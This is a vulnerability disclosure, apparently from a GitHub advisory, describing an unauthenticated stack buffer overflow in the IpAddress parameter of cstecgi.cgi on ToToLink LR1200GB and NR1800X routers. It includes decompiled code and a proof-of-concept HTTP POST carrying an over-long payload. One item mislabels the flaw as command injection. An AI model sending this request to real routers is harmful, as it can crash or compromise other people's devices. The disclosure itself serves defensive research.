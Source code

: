 # Buffer Overflow Vulnerability in `IpAddress`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | ToToLink LR1200GB & NR1800X Router                           |
| Firmware Version     | **V9.1.0u.6619_B20230130** for LR1200GB and **V9.1.0u.6681_B20230703** for NR1800X |
| Vulnerability Type   | **Stack Buffer Overflow**                                    |
| Vulnerable Component | `cstecgi.cgi` (handling of `IpAddress` parameter via `websGetVar` and `strcpy`) |
| Prerequisites        | Remote access to the device's web interface (no authentication required) |

2. Exploitation Path

```c
// cstecgi.cgi
int __fastcall setDefResponse(int a1, int a2)
{
  ...
  _DWORD v15[9]; // [sp+18h] [-24h] BYREF
  memset(v15, 0, 32);
  ...
  v6 = JsonConf;
  if ( JsonConf )
  {
    Var = websGetVar(JsonConf, "IpAddress", (int)&byte_439510);
    strcpy(v15, Var);
    cJSON_Delete(v6);
  }
  ...
}
```

3. **Vulnerable Binaries:** `cstecgi.cgi`.
4. 0-Day Command Injection Exploitation Path: In `cstecgi.cgi`, at line 11, `Var = websGetVar(JsonConf, "IpAddress", (int)&byte_439510)` receives data without any length restriction and is directly passed to line 12, `strcpy(v15, Var)`, resulting in a buffer overflow vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerabilities:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: curl/7.81.0
Accept: */*
Content-Type: application/json
Content-Length: 80
Connection: close

{
  "IpAddress": "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
}
```
